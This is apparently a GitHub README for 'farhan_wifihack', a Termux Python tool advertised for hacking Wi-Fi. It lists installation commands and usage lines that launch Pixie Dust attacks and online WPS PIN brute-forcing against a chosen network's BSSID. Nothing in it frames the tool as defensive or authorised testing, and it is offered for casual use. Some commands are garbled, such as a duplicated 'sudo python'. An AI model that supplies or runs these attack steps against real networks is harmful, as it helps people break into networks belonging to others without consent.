## farhan_wifihack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/gtajisan/farhan_wifihack
$ cd farhan_wifihack
$ chmod +x farhan.py
$ sudo python farhan.py --help
```

### Installation one link :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/Gtajisan/farhan_wifihack && cd farhan_wifihack && chmod +x farhan.py && sudo python farhan.py --help
```
### One line Command
 ```
 sudo python sudo python farhan.py -i wlan0 -K
 ```


#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python farhan.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python farhan.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
## Special Than all root users 
* FARHAN X ME
## [Facebook](https://www.facebook.com/profile.php?id=100094924471568&mibextid=ZbWKwL)

## [Whatsapp](https://wa.me/+880130505723*)
## Thanks For Using This Tool 🐸🙄
## ki obsta 🤡
